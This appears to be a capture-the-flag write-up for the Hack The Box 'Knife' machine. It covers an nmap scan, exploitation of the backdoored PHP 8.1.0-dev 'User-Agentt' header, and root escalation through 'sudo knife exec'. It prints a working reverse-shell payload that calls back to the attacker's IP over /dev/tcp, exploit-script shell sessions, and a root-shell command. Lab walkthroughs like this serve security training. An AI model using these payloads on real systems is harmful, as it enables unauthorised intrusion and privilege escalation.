




What we can learn from this machine
* Enumeration
* Burp Suite
* PHP Vulnerability
* Ruby - (Knife)

Let's start with a nmap scan. 
```
# Nmap 7.91 scan initiated Wed Jun  9 10:33:27 2021 as: nmap -sC -sV -A -Pn -oN scans/nmap-output 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  9 10:33:51 2021 -- 1 IP address (1 host up) scanned in 23.98 seconds
```
Looks like we got a port 22 and 80 open. Let's see what is in our website. Here I'm using **wappalyzer** extention. You can also use nikto to do that. 


Hmm! It is a simple site with no clickable elements. We can see that PHP version is 8.1.0 which is vulnerable to **user agentt RCE**.

* Here is the exploitdb link : https://www.exploit-db.com/exploits/49933

But I try to use that python script exploitdb gives but when we getting into the root user. It cause some promblems. But don't lose your hope. You can use the **burp suit** to do our dirty work.



If you look into that python script that exploitdb gives you can see this command in **line 17**. Now we have a little idea what is that script doing. Let's do that process in burpsuit. 
```bash
User-Agentt: zerodiumsystem("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.0/6199 0>&1'");
```


You can use burpsuit to get shell like this.Unfortunately I use our python script in first place to get user flag. Don't use this way use burpsuit to get to our user. If you choose script this will happen. 

```bash
┌─[✗]─[visith@parrot]─[~/CTF/htb/knife]
└──╼ $python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ whoami 
james
$ find / -type f -name user.txt 2>/dev/null
/home/james/user.txt            
$ cat /home/james/user.txt
***************************
```
You can successfully get a **user.txt** but you can't get into any directory. Shell not functional. 

Let's get to root. After any of scripts running like linpeas. I use **sudo -l** here what I found. 

```bash
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
We can see that we can run /usr/bin/knife using sudo perms without a password. Checking knife online, it is an automation tool by chef. 

* You can check the documentation here : https://docs.chef.io/workstation/knife/

You can use to **sudo knife** list all possible commands we can run with knife. Among them this caught my eyes. 



The one **exec**, in particular, can execute code using the Ruby library. This documentation help me with the shell script.

http://thelazylog.com/executing-shell-script-from-ruby-code/

This was my shell script :
```bash
sudo knife exec -E "system('/bin/sh -i')"
```
After we execute it we can get the root user like this.

```bash
james@knife:/$ sudo knife exec -E "system('/bin/sh -i')"
sudo knife exec -E "system('/bin/sh -i')"
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd root
# ls
delete.sh
root.txt
snap
# cat root.txt
*************************************
```

You Pwn the knife machine !! 

Thx for reading

